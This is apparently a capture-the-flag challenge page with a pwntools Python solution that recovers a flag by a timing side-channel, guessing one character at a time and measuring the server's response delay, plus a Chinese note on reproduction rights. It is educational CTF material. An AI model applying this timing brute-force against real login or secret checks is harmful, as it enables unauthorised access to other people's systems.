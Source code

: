 #### Goals
 * Try to find the flag

#### Server Address
 * nc misc.sniperoj.com 30001

#### Solution
```python

#!/usr/bin/env python

from pwn import *
import time
import sys

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

def guess(data, char):
    print "[+] Guessing : [%s]" % (data + char)
    Io.sendline(data + char)
    start_time = time.time()
    print Io.readuntil("Give me flag:")
    end_time = time.time()
    offset = end_time - start_time
    result = offset / 0.25
    temp = (len(data + char) * 0.25 - offset)
    return (temp < 0)


print Io.readuntil("Give me flag:")
print Io.readuntil("Give me flag:")

data = ""

while True:
    for i in range(127, 32, -1):
        if guess(data, chr(i)):
            data += chr(i)
            print "[+] Found [%s]" % (data)
            break
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
